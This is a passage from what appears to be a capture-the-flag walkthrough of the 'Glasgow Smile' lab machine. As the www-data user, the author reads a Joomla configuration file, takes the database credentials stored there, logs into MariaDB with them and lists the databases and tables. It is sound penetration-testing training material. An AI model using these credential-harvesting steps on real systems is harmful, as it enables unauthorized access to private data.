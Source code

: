 ```bash
www-data@glasgowsmile:/var/www/html/joomla$ cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.
';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'Joker';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
        public $dbprefix = 'jnqcu_';
        public $live_site = '';

```

Logon to MySQL servie with the creds _joomla:babyjoker_

```bash
www-data@glasgowsmile:/var/www/html/joomla$ mysql -ujoomla -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 495
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| batjoke            |
| information_schema |
| joomla_db          |
| mysql              |
| performance_schema |
+--------------------+
5 rows in set (0.002 sec)

MariaDB [(none)]> use bakjoke;
ERROR 1049 (42000): Unknown database 'bakjoke'
MariaDB [(none)]> use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
```